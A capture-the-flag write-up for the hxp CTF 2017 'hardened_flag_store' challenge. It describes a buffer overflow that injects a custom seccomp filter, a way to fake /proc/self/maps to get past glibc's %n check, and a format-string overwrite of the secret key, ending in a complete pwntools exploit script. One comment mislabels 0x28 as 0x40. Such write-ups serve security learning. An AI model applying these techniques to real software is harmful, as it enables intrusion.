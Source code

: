 # Writeup for hardened_flag_store (pwn, 300 + 20 pts, 15 solves), hxp CTF 2017

Description:

> finally a secure way to store my precious flogs
> Download: [2c020cca2c607610b33c8490653a6a420a86d89787278a7c72340833482ff4fd.tar.xz](https://2017.ctf.link/assets/files/2c020cca2c607610b33c8490653a6a420a86d89787278a7c72340833482ff4fd.tar.xz)
> Connection: nc 35.198.105.104 10000

## TL;DR

- using a buffer overflow, we load our own seccomp filter

- with a specific seccomp filter, we bypass glibc's hardening techniques

- we overwrite the secret key stored in memory and get the flag

## The Task

The target binary reads our input, installs a seccomp filter, and compares out input with a secret key. If the keys match, it opens and prints the flag; if not, it prints our input to stderr and jumps back to reading our input.

## The Bug

There's an obvious buffer overflow: we can input up to 96 bytes, which are read into a buffer of 32 bytes. Right after that buffer the seccomp filter is stored, so we can overwrite the filter and thus replace the first 8 seccomp instructions.

Apart from that, there's a fmtstr vulnerability: when we supply an incorrect key, our input is used as a format string to print to stderr; however, the binary is compiled with `_FORTIFY_SOURCE=2` and we cannot use `%n` without messing with glibc.

## The Exploit

When we use a `%n` in a format string, glibc reads `/proc/self/maps` to check if the format string is in read-only memory. If that fails, it complains `*** %n in writable segment detected ***` and `abort`s:

```
open("/proc/self/maps", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0444, st_size=0, ...}) = 0
read(3, "56134e97a000-56134e97c000 r-xp 0"..., 1024) = 1024
read(3, "                  /lib/x86_64-li"..., 1024) = 651
close(3)                                = 0
open("/dev/tty", O_RDWR|O_NOCTTY|O_NONBLOCK) = 3
writev(3, [{iov_base="*** %n in writable segment detec"..., iov_len=40}], 1) = 40
```

But we control the seccomp filter! Using the `ret ERRNO(0)` instruction, we can force any call to `open()` to return `0`, the file descriptor of stdin; libc then goes ahead and reads `/proc/self/maps` from standard input, so we can supply a fake memory map claiming that our input buffer is read-only.

The format string payload `%20c%20c%n` will write 0x00000028 to where the secret key is stored and thus overwrite it with "(".

One problem remains: when the binary opens the flag file, our seccomp filter makes the syscall return 0 again, and the binary reads the flag from stdin. To solve this, we filter by the first argument of the open syscall: if it points to the flag filename, we allow the call.

Putting everything together, we end up with the following exploit:

```python
from pwn import *

def bpf(op, jt, jf, k):
    return p16(op) + p8(jt) + p8(jf) + p32(k)

if __name__ == '__main__':

    r = remote('35.198.105.104', 10000)

    ld_1 = bpf(0x20, 0, 0, 0)
    jeq_1 = bpf(0x15, 4, 0, 3)
    jeq_2 = bpf(0x15, 0, 4, 2)
    ld_2 = bpf(0x20, 0, 0, 16)
    and_1 = bpf(0x54, 0, 0, 0xff)
    jeq_3 = bpf(0x15, 1, 0, 0x64)
    ret_errno = bpf(6, 0, 0, 0x00050000)
    ret_allow = bpf(6, 0, 0, 0x7fff0000)

    bpf_payload = ld_1 + jeq_1 + jeq_2 + ld_2 + and_1 + jeq_3 + ret_errno + ret_allow

    info("inject custom seccomp")
    r.send('A' * 32 + bpf_payload)

    info("trigger %n check")
    r.sendlineafter('Wrong secret :/\n', '%20c%20c%n')

    info("fake r-x memory")
    r.sendlineafter('Wrong secret :/\n', '000000000000-7fffffffffff r-xp 00000000 00:00 0                          /usr/bin/whatever')

    # we overwrote the secret key with 0x40 == '('
    info("enter secret key")
    r.sendline('(')

    r.recvuntil('hxp{')
    flag = 'hxp{' + r.recvuntil('}')
    info("flag: %s", flag)
```

Flag: `hxp{d0n7_w0rry_glibc_1_571ll_l0v3_y0u}`
